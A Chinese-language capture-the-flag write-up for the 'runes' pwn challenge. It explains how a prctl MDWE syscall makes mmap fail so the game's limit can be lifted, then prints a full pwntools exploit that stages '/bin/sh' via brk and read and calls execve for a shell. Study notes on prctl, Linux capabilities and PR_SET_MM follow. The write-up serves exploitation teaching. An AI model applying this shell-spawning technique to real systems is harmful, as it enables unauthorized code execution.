







# runes

```
Show me your runes.

[ Hints ]

1. No intended vulnerability in the bzImage/kernel, please exploit the userspace chal binary.
2. As the challenge's name implies, you need to focus on the `syscall` aka rune in this challenge. Find a way to **weaken the dark dragon's power** once your character becomes strong enough.
3. All syscall numbers（系统调用号) used in the intended solution are under 200 and relatively well used.

```

# 题目分析

当选择`2. Confront Dark Dragon - 3. Invoke the Forbidden Runes`时，可以进行一次任意`sysno`的`syscall`调用，但只能控制前3个参数，且参数大小不能超过`LEVEL*100`（默认按`100`来算）。此后进行一次`mmap`调用，如果调用失败返回-1，则Dark Dragon的血量就会掉到1：



反之如果`mmap`调用成功，则会执行提前写入的shellcode使玩家血量-0x1337c0d3（必死）：



想控制`syscall`参数值变大，去找写入`LEVEL`的地方，一共就两处，无论用`Strike`还是`Cast`，只要打败Dark Dragon就可以直接把`LEVEL`拉满：





所以我们就有了解题思路：

1. `2. Confront Dark Dragon - 3. Invoke the Forbidden Runes`，找到一个参数符合要求的syscall导致mmap返回-1；
2. `1. Strike with your weapon`，把Dark dragon打死，突破syscall的参数限制；
3. 重复`3. Invoke the Forbidden Runes`，ORW或者execve完成利用。

# Exp

```python
from pwn import *
from pwnlib import constants

local = 0
pc = './rootfs/chal'
aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF(pc)

if local == 1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
else:
    remote_addr = ['121.41.238.106', 26116]
    p = remote(remote_addr[0], remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8, b'\x00'))
    else:
        return u64(rl().strip().ljust(8,b'\x00'))

def Invoke():
    ru("3. Exit\r\n")
    sl("2")

def _syscall(sys_no, a1, a2, a3):
    ru('3. Invoke the Forbidden Runes\r\n')
    sl('3')
    ru("60 3 3 3): ")
    sl(f"{sys_no} {a1} {a2} {a3}")

def Strike():
    ru('3. Invoke the Forbidden Runes\r\n')
    sl('1')

if __name__ == "__main__":
    ru("tell me your name: ")
    sl('aaa')

    '''
    linux/prctl.h:#define PR_SET_MDWE               65
    linux/prctl.h:#define PR_MDWE_REFUSE_EXEC_GAIN  (1UL << 0)
    '''
    Invoke()
    _syscall(int(constants.SYS_prctl), 65, 1, 0)
    Strike()

    Invoke()
    _syscall(int(constants.SYS_brk), 0, 0, 0)
    ru("answers: ")
    brk = int(rl().strip())
    lg("brk", brk)

    _syscall(int(constants.SYS_brk), brk+0x1000, 0, 0)
    ru("answers: ")
    res = int(rl().strip())
    lg("res", res)

    #_syscall(int(constants.SYS_read), 0, brk, 8)
    #rl()
    #sn(b"/flag\x00\n")

    #_syscall(int(constants.SYS_open), brk, 0, int(constants.PROT_READ))
    #ru("answers: ")
    #fd = int(rl().strip())
    #lg("fd", fd)

    #_syscall(int(constants.SYS_read), fd, brk+0x10, 0x30)
    #ru("answers: ")
    #res = int(rl().strip())
    #lg("res", res)

    #_syscall(int(constants.SYS_write), 1, brk+0x10, res)
    #log.critical(rl().strip())

    _syscall(int(constants.SYS_read), 0, brk, 8)
    rl()
    sn(b"/bin/sh\x00\n")

    # envp
    _syscall(int(constants.SYS_read), 0, brk+0x10, 8)
    rl()
    sn(p64(brk+5)+b'\n')

    # execve("/bin/sh", {"sh", 0}, 0);
    _syscall(int(constants.SYS_execve), brk, brk+0x10, 0)
    sl(b"cat flag")

    p.interactive()
```

# 可能遇到的问题

远程ORW行不通，`open("/flag", 0, PROT_READ);`返回-1。

busybox中直接执行`execve("/bin/sh", 0, 0);`会报错，需要设置正确的环境变量，即`execve("/bin/sh", {"sh", 0}, 0);`才能正确执行。





# prctl系统调用

> 不得不说还是人工智能有两把刷子x
>
> 
>
> 这里是看了题解才知道可以用`prctl`，回顾了一下之前的知识，**`prctl`只在反调试、沙箱规则见过**，影响内存分配还是第一次见。


## manpage

```bash
prctl(2)                                     System Calls Manual                                     prctl(2)

NAME
       prctl - operations on a process or thread

LIBRARY
       Standard C library (libc, -lc)

SYNOPSIS
       #include <sys/prctl.h>

       int prctl(int op, ...
                 /* unsigned long arg2, unsigned long arg3,
                 unsigned long arg4, unsigned long arg5 */ );

DESCRIPTION
       prctl() manipulates various aspects of the behavior of the calling thread or process.

       Note  that careless use of some prctl() operations can confuse the user-space run-time environment, so
       these operations should be used with care.

       prctl()  is  called  with  a  first  argument  describing  what  to  do  (with   values   defined   in
       <linux/prctl.h>), and further arguments with a significance depending on the first one.  The first ar‐
       gument can be:
```

op描述操作（其值在[`linux/prctl.h`](https://elixir.bootlin.com/linux/v5.11.9/source/tools/include/uapi/linux/prctl.h)中定义），其他参数的意义取决于op。


##  Capabilities

参考：

* [Linux 安全 - Capabilities机制](https://blog.csdn.net/weixin_45030965/article/details/133357725)
* [Linux 权能综述](https://www.jianshu.com/p/97281cf155e7)

Capabilities提供了对特定操作或系统资源的更细粒度的权限控制，以允许用户或进程执行特定的特权操作，**而无需完全提升到超级用户（root）权限**。

以下列表显示了在Linux上实现的 capabilities ，以及每个 capabilities 允许的操作或行为：

```bash
# POSIX-draft defined capabilities
CAP_CHOWN：允许覆盖更改文件所有者和组所有者的限制。
CAP_DAC_OVERRIDE：允许覆盖所有DAC（自主访问控制）访问限制，包括ACL（访问控制列表）的执行访问控制。
CAP_DAC_READ_SEARCH：允许覆盖对文件和目录的读取和搜索操作的所有限制。
CAP_FOWNER：允许覆盖对文件所有者ID必须等于用户ID的操作的限制。
CAP_FSETID：允许覆盖对文件设置S_ISUID和S_ISGID位的限制。
CAP_KILL：允许覆盖发送信号的进程的实际或有效用户ID必须与接收信号的进程的实际或有效用户ID相匹配的限制。
CAP_SETGID：允许操作组ID设置。
CAP_SETUID：允许操作用户ID设置。

# Linux-specific capabilities
CAP_SETPCAP：允许修改进程的能力。
CAP_LINUX_IMMUTABLE：允许修改文件属性S_IMMUTABLE和S_APPEND。
CAP_NET_BIND_SERVICE：允许绑定到低于1024的TCP/UDP套接字。
CAP_NET_BROADCAST：允许广播和监听多播。
CAP_NET_ADMIN：允许接口配置、管理IP防火墙和路由表、设置套接字的调试选项等。
CAP_NET_RAW：允许使用RAW和PACKET套接字。
CAP_IPC_LOCK：允许锁定共享内存段和mlock/mlockall调用。
CAP_IPC_OWNER：覆盖IPC所有权检查。
CAP_SYS_MODULE：允许插入和删除内核模块。
CAP_SYS_RAWIO：允许原始I/O访问和向任何设备发送USB消息。
CAP_SYS_CHROOT：允许使用chroot()。
CAP_SYS_PTRACE：允许对任何进程进行ptrace()。
CAP_SYS_PACCT：允许配置进程账户。
CAP_SYS_ADMIN：允许各种管理任务，如挂载/卸载、访问设备特定功能等。
CAP_SYS_BOOT：允许使用reboot()。
CAP_SYS_NICE：允许提高其他进程的优先级和设置优先级。
CAP_SYS_RESOURCE：允许覆盖资源限制和配额限制，修改数据日志模式等。
CAP_SYS_TIME：允许配置系统时钟和设置实时时钟。
CAP_SYS_TTY_CONFIG：允许配置tty设备和vhangup()tty。
CAP_MKNOD：允许特权方面的mknod()。
CAP_LEASE：允许对文件进行租约。
CAP_AUDIT_WRITE：允许通过单播netlink套接字写入审计日志。
CAP_AUDIT_CONTROL：允许通过单播netlink套接字配置审计。
CAP_SETFCAP：允许设置文件能力。
CAP_MAC_OVERRIDE：覆盖MAC（强制访问控制）访问。
CAP_MAC_ADMIN：允许MAC配置或状态更改。
CAP_SYSLOG：允许配置内核的系统日志。
CAP_WAKE_ALARM：允许触发将唤醒系统的事件。
CAP_BLOCK_SUSPEND：允许阻止系统挂起。
CAP_AUDIT_READ：允许通过多播netlink套接字读取审计日志。
```

### Thread capability set（线程权限）

每个线程都有以下 capability sets ，包含零个或多个上述的 capabilities ：

```c
struct cred {
	kernel_cap_t	cap_inheritable; /* caps our children can inherit */
	kernel_cap_t	cap_permitted;	/* caps we're permitted */
	kernel_cap_t	cap_effective;	/* caps we can actually use */
	kernel_cap_t	cap_bset;	/* capability bounding set */
	kernel_cap_t	cap_ambient;	/* Ambient capability set */
}
```

1. Permitted（允许权限集合）：该权限集合是线程可以使用的权限的上限，定义了**线程能够拥有的最大权限**。如果线程从允许的权限集合中删除了某个权限，那么除非它执行一个具有相应文件权限的程序，否则它将无法重新获取该权限。
2. Inheritable（可继承权限集合）：当可执行文件的扩展属性设置了 inheritable 位时，**调用 exec 执行该程序会继承调用者的 inheritable 集合，并将其加入到 permitted 集合**。<u>但在非 root 用户下执行 exec 时，通常不会保留 inheritable 集合，但是往往又是非 root 用户，才想保留权限，所以Inheritable没有什么作用，因此在Linux 4.3版本引入Ambient位</u>。
3. Effective：该权限集合包含了内核用于对线程进行权限检查的权限。内核会检查生效的权限集合，以**确定线程是否被允许执行特定的特权操作**。
4. Bounding（边界权限集合）：capability bounding set 是一种机制，可用于**限制execve()期间获取的能力**。自Linux 2.6.25起，这是一个每个线程的能力集。在旧内核中，能力边界集是一个系统范围的属性，由系统上的所有线程共享。有关能力边界集的更多细节，请参考：Capability bounding set 这一章节。
5. Ambient（环境权限集合，自Linux 4.3版本引入）：该权限集合包含了**在执行非特权程序的execve()调用时会保留的权限**，<u>如果你是非root用户但具有某种能力，你可以将其添加到"ambient"中。如果这样做，你的子进程将在"ambient"、"permitted"和"effective"中获得该能力</u>。
   环境权限集合遵循一个原则，即只有同时在允许的和可继承的权限集合中的权限才能成为环境权限。可以使用`prctl()`系统调用直接修改环境权限集合。<u>如果对应的允许的或可继承的权限被降低，环境权限也会被自动降低。当执行改变用户或组ID的程序（由于设置了set-user-ID或set-group-ID位）或具有设置了文件权限的程序时，环境权限集合会被清除。</u>在执行execve()时，环境权限会被添加到允许的权限集合中，并赋予生效的权限集合。

### File capability set（文件权限）

自内核版本2.6.24以来，内核支持使用setcap()将权限集合与可执行文件关联起来。文件权限集合存储在一个名为security.capability的扩展属性中（参见setxattr()）。要写入该扩展属性，需要具有CAP_SETFCAP权限。**文件权限集合与线程的权限集合一起确定了execve()后线程的权限。**

文件权限集合分为三种：

1. Permitted（以前称为 forced）：无论线程的可继承权限如何，这些权限都会自动授予线程。
2. Inheritable（以前称为 allowed）：将此集合与线程的可继承集合进行逻辑与操作，确定在execve()后线程的允许集合中启用了哪些可继承权限。
3. Effective：这不是一个集合，而只是一个单独的位。如果设置了该位，在execve()期间，线程的所有新允许的权限也会在生效集合中提升。如果未设置该位，在execve()之后，新的允许权限都不会出现在新的生效集合中。

启用文件的生效权限位意味着任何导致线程在execve()期间获取相应允许权限的文件允许或可继承权限（参见下面描述的转换规则），在其生效集合中也会获取该权限。因此，当为文件分配权限（使用setcap()、cap_set_file()、cap_set_fd()）时，如果我们指定了任何权限的生效标志为启用状态，则对于所有其他启用了相应允许或可继承标志的权限，也必须指定生效标志为启用状态。


### PR_CAP_AMBIENT (since Linux 4.3)

`prctl(PR_CAP_AMBIENT, PR_CAP_AMBIENT_*, cap, 0, 0)`

根据`argv[1]`的值读取或更改调用线程的 Ambient Capabilities（环境权限集），该值必须是以下之一：

* `PR_CAP_AMBIENT_RAISE`：添加权限
* `PR_CAP_AMBIENT_LOWER`：降低权限
* `PR_CAP_AMBIENT_IS_SET`：判断是否设置权限
* `PR_CAP_AMBIENT_CLEAR_ALL`：清空所有权限

其中`cap`值在`<linux/capability.h>`中定义，含义参考[man 7 capabilities](https://manpages.ubuntu.com/manpages/xenial/man7/capabilities.7.html)

### PR_CAPBSET_READ/DROP (since Linux 2.6.25)

`prctl(PR_CAPBSET_READ/DROP, cap, 0, 0, 0)`

判断 Bounding Capabilities（边界权限集合）中是否具有某权限，或从集合中删除该权限。

其中`cap`值在`<linux/capability.h>`中定义，含义参考[m an 7 capabilities](https://manpages.ubuntu.com/manpages/xenial/man7/capabilities.7.html)。


## Threads

### PR_SET/GET_CHILD_SUBREAPER (since Linux 3.4)

`prctl(PR_SET_CHILD_SUBREAPER, (int)arg2, 0, 0, 0)`

如果 arg2 非零，则设置调用进程的`CHILD_SUBREAPER`（子收割者）属性；如果 arg2 为零，则取消设置该属性。

`prctl(PR_GET_CHILD_SUBREAPER, (int*)arg2, 0, 0, 0)`

获取调用进程的`child subpreaper`（子收割者）属性存入arg2指向的int类型指针。

子收割者履行其后代进程的`init`角色。当进程变为孤儿进程（即其直系父进程终止）时，最近仍存活的子收割者将重新成为该孤儿进程的父进程，在孤儿进程中调用 getppid(2) 将返回子收割者进程的 PID；当孤儿进程终止时，子收割者进程将收到 SIGCHLD 信号，并能够等待进程终止。

“子收割者”属性的设置不会被 fork(2) 和 clone(2) 创建的子进程继承。该属性的设置在 execve(2) 中保留。

在会话管理框架中，建立子收割机进程非常有用，因为子收割机进程管理分层进程组，当其中一个进程（例如双分叉守护进程）终止时，需要通知该进程（以便它可以重新启动该进程）。一些 init(1) 框架（例如 systemd(1)）出于类似原因采用子收割机进程。

### PR_SET_MM (since Linux 3.3)

更改内存映射，修改调用进程的某些内核内存映射描述符字段。通常这些字段由内核和动态加载器设置，常规应用程序不应使用此功能。但是，在某些情况下，例如自修改程序，程序可能会发现更改自己的内存映射很有用。调用进程必须具有 CAP_SYS_RESOURCE 功能。在 Linux 3.10 之前，只有在内核构建时启用了 CONFIG_CHECKPOINT_RESTORE 选项时，此功能才可用。

arg2 中的值是以下选项之一，而 arg3 为该选项提供了一个新值。如果未使用，arg4 和 arg5 参数必须为零。

```bash
PR_SET_MM_START_CODE # .code start（必须为PROT_READ|PROT_EXEC，不能有PROT_WRITE|MAP_SHARED）
    Set the address above which the program text can run.   The  corresponding  memory  area
    must  be  readable  and  executable,  but not writable or shareable (see mprotect(2) and
    mmap(2) for more information).

PR_SET_MM_END_CODE # .code end（必须为PROT_READ|PROT_EXEC，不能有PROT_WRITE|MAP_SHARED）
    Set the address below which the program text can run.   The  corresponding  memory  area
    must be readable and executable, but not writable or shareable.

PR_SET_MM_START_DATA # .bss start（必须为PROT_READ|PROT_WRITE，不能有PROT_EXEC|MAP_SHARED）
    Set  the  address  above which initialized and uninitialized (bss) data are placed.  The
    corresponding memory area must be readable and writable, but not  executable  or  share‐
    able.

PR_SET_MM_END_DATA # .bss end（必须为PROT_READ|PROT_WRITE，不能有PROT_EXEC|MAP_SHARED）
    Set  the  address  below which initialized and uninitialized (bss) data are placed.  The
    corresponding memory area must be readable and writable, but not  executable  or  share‐
    able.

PR_SET_MM_START_STACK  # .stack start（必须为PROT_READ|PROT_WRITE，没说不能PROT_EXEC？）
    Set  the start address of the stack.  The corresponding memory area must be readable and
    writable.

PR_SET_MM_START_BRK  # .heap start（大于.bss end，heap长度和.bss段长度加起来不超过RLIMIT_DATA）
    Set the address above which the program heap can be expanded with brk(2) call.  The  ad‐
    dress  must  be greater than the ending address of the current program data segment.  In
    addition, the combined size of the resulting heap and the size of the data segment can't
    exceed the RLIMIT_DATA resource limit (see setrlimit(2)).
    
PR_SET_MM_BRK # brk值（同上）
    Set the current brk(2) value.  The requirements for the address are the same as for  the
    PR_SET_MM_START_BRK option.

The following options are available since Linux 3.5.

PR_SET_MM_ARG_START # 栈上启动命令放置地址
		Set the address above which the program command line is placed.

PR_SET_MM_ARG_END
		Set the address below which the program command line is placed.

PR_SET_MM_ENV_START # 栈上参数放置地址
		Set the address above which the program environment is placed.

PR_SET_MM_ENV_END
		Set the address below which the program environment is placed.

The address passed with PR_SET_MM_ARG_START, PR_SET_MM_ARG_END, PR_SET_MM_ENV_START, and
PR_SET_MM_ENV_END should belong to a process stack area.  Thus, the corresponding memory
area  must  be  readable, writable, and (depending on the kernel configuration) have the
MAP_GROWSDOWN attribute set (see mmap(2)).

PR_SET_MM_AUXV # 动态链接时辅助信息数组（见参考）
    Set a new auxiliary vector.  The arg3 argument should provide the address of the vector.
    The arg4 is the size of the vector.

PR_SET_MM_EXE_FILE # arg3为指向通过open打开的文件描述符，/proc/pid/exe符号链接将指向该文件（需要unmap所有原来的可执行的内存区域，如.text）
    Supersede the /proc/pid/exe symbolic link with a new one pointing to  a  new  executable
    file  identified  by the file descriptor provided in arg3 argument.  The file descriptor
    should be obtained with a regular open(2) call.
    To change the symbolic link, one needs to unmap all existing  executable  memory  areas,
    including  those created by the kernel itself (for example the kernel usually creates at
    least one executable memory area for the ELF .text section).

The following options are available since Linux 3.18.

PR_SET_MM_MAP # 是上述所有选项的一个集合，通过传入`struct prctl_mm_map`实现
    Provides  one-shot  access  to all the addresses by passing in a struct prctl_mm_map (as
    defined in <linux/prctl.h>).  The arg4 argument should provide the size of the struct.
    This feature is available only if the kernel is built with the CONFIG_CHECKPOINT_RESTORE
    option enabled.
    /*
        struct prctl_mm_map {
          __u64	start_code;		/* code section bounds */
          __u64	end_code;
          __u64	start_data;		/* data section bounds */
          __u64	end_data;
          __u64	start_brk;		/* heap for brk() syscall */
          __u64	brk;
          __u64	start_stack;		/* stack starts at */
          __u64	arg_start;		/* command line arguments bounds */
          __u64	arg_end;
          __u64	env_start;		/* environment variables bounds */
          __u64	env_end;
          __u64	*auxv;			/* auxiliary vector */
          __u32	auxv_size;		/* vector size */
          __u32	exe_fd;			/* /proc/$pid/exe link file */
        };
    */

PR_SET_MM_MAP_SIZE
    Returns the size of the struct prctl_mm_map the kernel expects.  This allows user space
    to find a compatible struct.  The arg4 argument should be a pointer to an unsigned int.
    This feature is available only if the kernel is built with the CONFIG_CHECKPOINT_RESTORE
    option enabled.

```

参考：

* [Linux进程伪装：动态修改/proc/self/exe](https://xz.aliyun.com/news/9683)
* [动态链接时辅助信息数组(Auxiliary Vector)](https://zhuanlan.zhihu.com/p/555912637)


###        PR_SET_VMA (since Linux 5.17)

`prctl(PR_SET_VMA, PR_SET_VMA_ANON_NAME, addr, size, name)`

为地址为`addr`长度为`size`的匿名虚拟内存重命名。

    Sets  an  attribute specified in arg2 for virtual memory areas starting from the address speci‐
    fied in arg3 and spanning the size specified in arg4.  arg5 specifies  the  value  of  the  at‐
    tribute to be set.
    
    Note  that  assigning  an attribute to a virtual memory area might prevent it from being merged
    with adjacent virtual memory areas due to the difference in that attribute's value.
    
    Currently, arg2 must be one of:
    
    PR_SET_VMA_ANON_NAME
        Set a name for anonymous virtual memory areas.  arg5 should be a pointer to a  null-ter‐
        minated  string  containing the name.  The name length including null byte cannot exceed
        80 bytes.  If arg5 is NULL, the name of the appropriate anonymous virtual  memory  areas
        will  be reset.  The name can contain only printable ascii characters (including space),
        except '[', ']', '\', '$', and '`'.

参考：[Linux 内存管理窥探（15）：虚拟内存 VMA 浅析](https://blog.csdn.net/zhoutaopower/article/details/89501437)


###        PR_MPX_ENABLE/DISABLE_MANAGEMENT (since Linux 3.19, removed in Linux 5.4; only on x86)

控制是否启用Intel MPX内存保护，不是很重要。

    PR_MPX_DISABLE_MANAGEMENT (since Linux 3.19, removed in Linux 5.4; only on x86)
        Enable or disable kernel management of Memory Protection eXtensions (MPX) bounds  tables.   The
        arg2, arg3, arg4, and arg5 arguments must be zero.

参考：[Design of Intel MPX](https://intel-mpx.github.io/design/)


###        PR_SET/GET_NAME (since Linux 2.6.9/2.6.11)

修改/获取进程名。

    PR_SET_NAME (since Linux 2.6.9)
        Set the name of the calling thread, using the value in the location  pointed  to  by  (char  *)
        arg2.   The  name  can  be  up  to 16 bytes long, including the terminating null byte.  (If the
        length of the string, including the terminating null byte, exceeds  16  bytes,  the  string  is
        silently  truncated.)  This is the same attribute that can be set via pthread_setname_np(3) and
        retrieved  using   pthread_getname_np(3).    The   attribute   is   likewise   accessible   via
        /proc/self/task/tid/comm  (see  proc(5)),  where tid is the thread ID of the calling thread, as
        returned by gettid(2).
    
    PR_GET_NAME (since Linux 2.6.11)
        Return the name of the calling thread, in the buffer pointed to by (char *) arg2.   The  buffer
        should allow space for up to 16 bytes; the returned string will be null-terminated.

### PR_SET/GET_NO_NEW_PRIVS (since Linux 3.5)

参考：[如何理解进程的 no_new_privs 属性？](https://blog.csdn.net/Longyu_wlz/article/details/126311022)

`prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);`

当设置了 no_new_privs 标志后，**execve 会保证不会赋予运行进程新的权限， suid、sgid 权限会失效并且文件特殊权限也会失效**，这意味着 execve 运行的新程序不会拥有比原进程更高的权限。

